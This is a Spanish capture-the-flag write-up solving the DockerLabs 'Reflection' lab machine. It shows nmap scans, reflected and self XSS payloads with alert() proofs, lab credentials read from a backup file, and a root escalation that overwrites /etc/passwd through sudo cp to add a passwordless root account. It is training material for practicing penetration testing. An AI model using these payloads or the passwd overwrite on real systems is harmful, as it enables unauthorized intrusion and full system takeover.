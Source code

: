 #MAQUINA #DOCKERLABS #FACIL
#XSS #CROSS_SITE_SCRIPTING
<hr>

# RECONOCIMIENTO

Vamos a resolver **Reflection** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 16:18 CET
Initiating ARP Ping Scan at 16:18
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 16:18, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 16:18
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 16:18, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-01-30 16:18:23 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.73 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 16:18 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000019s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 89:6c:a5:af:d5:e2:83:6c:f9:87:33:44:0f:78:48:3a (ECDSA)
|_  256 65:32:42:95:ca:d0:53:bb:28:a5:15:4a:9c:14:64:5b (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Laboratorio de Cross-Site Scripting (XSS)
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.51 seconds


```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 16:19 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

Vemos que es un laboratorio preparado para practicar XSS.

# EXPLOTACION

## LABORATORIO 1 (REFLECTED XSS)

Vemos que si metemos una etiqueta h1 (**HTMLI**):

``` html
<h1>HOLA</h1>
```

Podemos ver que se interpreta y es vulnerable a una **HTML Injection**.

Ahora probaremos a meter una imagen y al dar error meteremos un alert:
``` html
<img src="src" onerror=alert('1') >
```

**VULNERADO**
## LABORATORIO 2 (SELF XSS)

Ahora probaremos a meter una imagen y al dar error meteremos un alert, cerrando el value y div para colar nuestro script:

```html

vicks"><img src="src" onerror=alert('1') >

```

**VULNERADO**
## LABORATORIO 3 (REFLECTED XSS CON DROPDOWNS)

Ahora probaremos a meter una imagen por la opción que se pasa por URL y al dar error meteremos un alert:

```

http://172.17.0.2/172.17.0.2/laboratorio3/?opcion1=<img src=xxx onerror=alert('1')>&opcion2=ValorX&opcion3=Opcion1

```

**VULNERADO**

## LABORATORIO 4(REFLECTED XSS POR URL)

```

http://172.17.0.2/laboratorio4/?data=%3Cscript%3Ealert(%271%27)%3C/script%3E

```

**VULNERADO**
# ESCALADA DE PRIVILEGIOS

Al completar los labs, te dan las credenciales de balu.

Tras echar un ojo vemos que hay un **secret.bak** con las credenciales de balulito

**Usuario -> balulito**
**Contra -> balulerochingon**

ESTAMOS COMO BALULITO

Vemos si el usuario tiene permisos SUDO:
   ```bash
balulito@857ab24bf0f1:/$ sudo -l
Matching Defaults entries for balulito on 857ab24bf0f1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User balulito may run the following commands on 857ab24bf0f1:
    (ALL) NOPASSWD: /bin/cp


```

Vemos **cp** con permisos SUDO , modificamos el /etc/passwd copiando la linea de root y quitandole la x para que no pida contra:
   ```bash
balulito@857ab24bf0f1:/tmp$ echo "root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
balu:x:1000:1000:balu,,,:/home/balu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
balulito:x:1001:1001:balulito,,,:/home/balulito:/bin/bash
newroot::0:0:root:/root:/bin/bash" | sudo cp /dev/stdin /etc/passwd
balulito@857ab24bf0f1:/tmp$ su newroot
root@857ab24bf0f1:/tmp# whoami
root
root@857ab24bf0f1:/tmp# 
```

**YA ESTAMOS COMO ROOT.**